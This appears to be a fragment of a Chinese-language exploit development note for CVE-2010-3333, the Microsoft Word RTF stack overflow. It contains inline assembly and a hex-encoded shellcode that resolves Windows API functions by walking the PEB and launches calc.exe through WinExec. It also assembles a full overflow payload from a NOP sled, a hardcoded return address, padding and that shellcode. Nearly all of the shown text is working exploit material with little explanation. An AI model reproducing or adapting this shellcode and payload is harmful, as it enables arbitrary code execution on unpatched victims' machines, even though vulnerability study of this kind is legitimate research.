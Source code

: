 ```c
        push    ecx
        push    0x6578652E                          //".exe"
        push    0x636C6163                          //"calc"
        mov     ebx, esp
        push    5
        push    ebx
        call    eax
    };
}
int main(void){
    test02();
    return 0;
}
//33C9648B41308B400C8B7014AD96AD8B5810538B533C03D38B527803D38B722003F333C941AD03C381384765745075F4817804726F634175EB8178086464726575E28B722403F3668B0C4E498B721C03F38B148E03D35B33C951B97865636151836C2403616857696E455453FFD233C951682E6578656863616C638BDC6A0553FFD0
```

函数返回时 将esp+14h shellcode填充时需要注意一下

![image-20220719175249916](cve-2010-3333.assets/image-20220719175249916.png)

结合

```
9090909090909090909090909090909090909090 5D744473 90909090909090909090909090909090 00000000 33C9648B41308B400C8B7014AD96AD8B5810538B533C03D38B527803D38B722003F333C941AD03C381384765745075F4817804726F634175EB8178086464726575E28B722403F3668B0C4E498B721C03F38B148E03D35B33C951B97865636151836C2403616857696E455453FFD233C951682E6578656863616C638BDC6A0553FFD0
```

长度

![image-20220719182336736](cve-2010-3333.assets/image-20220719182336736.png)
